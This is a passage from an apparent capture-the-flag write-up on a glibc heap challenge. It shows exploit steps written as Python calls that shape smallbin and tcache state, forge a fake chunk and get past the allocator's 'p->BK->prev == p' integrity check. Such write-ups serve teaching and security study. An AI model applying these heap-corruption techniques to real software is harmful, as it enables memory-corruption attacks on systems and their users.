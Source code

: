 Obtain the small bin in smallbins to clean the smallbins.
```
buy_house(2, 0x90, "\x22" * 0x90)
```
Obtain a size of 0x220 at the address of that 0x21 tcache bin.
```
buy_house(6, 0x217, "\x66" * 0x90)
```

![](./index_files/2687fd9b-ae5d-48b2-a032-fe3aa72643e6.jpg)

So, it is good for the check for smallbins list. <font color=red>**p->BK->prev == p**</font>.
We then get a smallbin chunk to avoid being merging with top_chunk.
```
buy_house(4, 0x217, "\x44" * 0x90)
```
A great trick. We calloc a (0x3a0 + 0x10) size chunk and free it into tcache to make the bitmap to be 0x100. It is really usefull for this challenge, since we can only use ```calloc```, we need to zero memory with the size of the fake chunk (0 is really not good).
```
buy_house(6, 0x3a0, p64(heap_base + 0x40) * (0x3a0 / 8))
sell(6)
```

![](./index_files/23c23f63-dc5b-45fc-934c-beefee67ed9d.jpg)
